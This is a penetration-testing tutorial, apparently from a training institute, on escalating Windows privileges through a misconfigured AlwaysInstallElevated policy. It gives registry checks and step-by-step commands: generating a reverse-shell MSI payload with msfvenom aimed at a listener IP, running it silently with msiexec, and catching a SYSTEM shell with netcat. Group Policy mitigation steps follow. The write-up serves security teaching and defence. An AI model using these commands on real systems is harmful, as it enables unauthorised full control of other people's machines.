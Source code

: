 :orphan:
(windows-privilege-escalation-alwaysinstallelevated)=
# Windows Privilege Escalation AlwaysInstallElevated
 
In a privilege escalation attack, Attackers get system access with low privilege and then attempt to gain higher rights to do operations that are restricted to less privileged users. Attackers gain administrative access to the network by exploiting design flaws, programming faults, bugs, and configuration blunders in the operating system and software applications. In this article, we will gain administrative privileges via the misconfigured `AlwaysInstalledElevated` group policy settings. 

Windows operating system includes a Windows Installer engine that uses `MSI` packages to install the software. Windows environments provide a group policy setting that allows a regular user to install a `Microsoft Windows Installer Package` (MSI) with system privileges. This policy is enabled in the Local group policy which directs windows os to use system privileges to install any program on the system.  This setting makes the system vulnerable to privilege escalation attacks as normal users can run the installation with elevated privileges. 

*Note: This option is equivalent to granting full `SYSTEM` rights, which can pose a massive security risk. Microsoft strongly discourages the use of this setting.*

This article assumes that we have already compromised the system and have a meterpreter session. 
`Getuid `

![aie_1](images/aie_1.png)

As we can see that we are logged as a normal user and not an admin. 

To check if this system is vulnerable to the AlwaysInstallElevated privilege escalation attack. Run the following command to query registry keys to check whether the windows installer has elevated privileges or not. 

`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`

![aie_2](images/aie_2.png)

From the above screenshot, the registry named `AlwaysInstallElevated` exists with a `dword` value of `0x1` which means that the AlwaysInstallElevated is enabled both on the `CURRENT USER and LOCAL MACHINE`. 
This vulnerability can be also be verified using `winpeas.exe`. WinPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
`https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe`  

`winPEASx64.exe quiet systeminfo`

![aie_3](images/aie_3.png)


## Exploiting via .msi payload

To escalate the privileges, open a new terminal and type the following command to generate an MSI file named `“installer.msi” `using the msfvenom tool. 
```
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.17.2.160 lport=1234 -f msi > installer.msi
lhost : it is listener's IP address
Lport : it is listener port 
```
![aie_4](images/aie_4.png)

Let's upload our MSI file named installer.msi to the target computer using the user's active Meterpreter session. 
`upload <path_to_msi_file>`

![aie_5](images/aie_5.png)

When it successfully uploads, open up the shell by typing shell in meterpreter. Next set up a netcat listener, which will listen for our reverse shell connection when the msi file will be executed by the victim host. 
```
sudo nc -nlvp <listner_port> 
-p : to specify the port to listen on 
-l : to listen for a connection 
-n : to skip the DNS lookup
-v : for verbose mode 
```
![aie_6](images/aie_6.png)

The following command can be used to execute the MSI file on the windows command.  
`msiexec /quiet /qn /i installer.msi`
```
/quiet : quiet mode, this means suppress any messages to the user while installing
/qn : specifies no GUI
/i : specifies normal installation
```
![aie_7](images/aie_7.png)

After the package is installed, the malicious code is run, giving the system `SYSTEM` level access through a reverse shell. 

![aie_8](images/aie_8.png)

Now we have a `SYSTEM` level shell. 

## Mitigation

To mitigate this type of attack, the following steps can be used in `Group Policy editor` to resolve the misconfiguration. 
Configure the policy value to `"Disabled"` for 
`Computer Configuration \Administrative Templates\Windows Components \Windows Installer \"Always install with elevated privileges"` 

![aie_9](images/aie_9.png)

`User Configuration\Administrative Templates\Windows Components\Windows Installer \"Always install with elevated privileges"`

![aie_10](images/aie_10.png)

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::